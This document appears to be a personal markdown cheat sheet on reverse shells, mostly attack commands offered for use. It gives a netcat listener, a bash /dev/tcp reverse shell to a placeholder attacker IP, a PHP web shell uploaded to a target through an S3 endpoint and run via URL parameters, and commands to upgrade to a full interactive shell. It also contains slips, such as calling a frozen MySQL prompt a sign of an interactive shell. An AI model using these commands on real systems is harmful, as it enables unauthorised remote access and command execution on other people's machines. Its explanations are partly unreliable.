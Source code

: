# Description
This file lists everything I know about reverse shells and how to use them.

# Create a reverse shell
#### Description
How to create a reverse shell through bash/Linux terminal commands
### What are reverse shells used for?
Reverse shells are often used for gaining remote access to a system. Reverse shells require a listener on your attacking machine, and then you need to execute a command on the target machine that connects back to your listener, granting you access to the target machine's shell.
### How to create a reverse shell using ```bash```
1. ```nc -lvnp 4444```: use ```netcat``` to create a listener on port ```4444```
- Other port numbers can be used as well, select the number that works for you 
2. ```bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1```: use ```bash``` to start an interactive shell
### How to create a reverse shell using ```aws``` and ```php```
1. ```nano shell.php```
   - Use the code editor to write a piece of code in PHP, such as: ```<? php system($_GET['cmd']); ?>```
2. ```cat shell.php```: check for ```shell.php```
3. ```aws s3 cp --endpoint-url=http://<target_url> shell.php s3://<target_url_w/o_extensions>```: upload ```shell.php``` to target
4. go to web browser, enter URL ```http://<target_url>/shell.php?cmd=ls```: execute ```ls``` command in web browser
- You should now have access to the target website and can execute ```bash``` commands through the URL.
- Replace ```ls``` with any command (keeping in mind spaces are "```+```" in URL encoding) to execute.


# Upgrade your shell
#### Description
How to upgrade a non-interactive shell (reverse shell) to a fully interactive one
### How do I know if I'm in a non-interactive shell?
You're probably in an interactive shell if you've tried to execute a MySQL prompt and the program froze.
### How to upgrade your shell
1. ```python3 -c 'import pty; pty.spawn("/bin/bash")'```
2. ```stty raw -echo; fg```
3. ```script /dev/null -c bash```
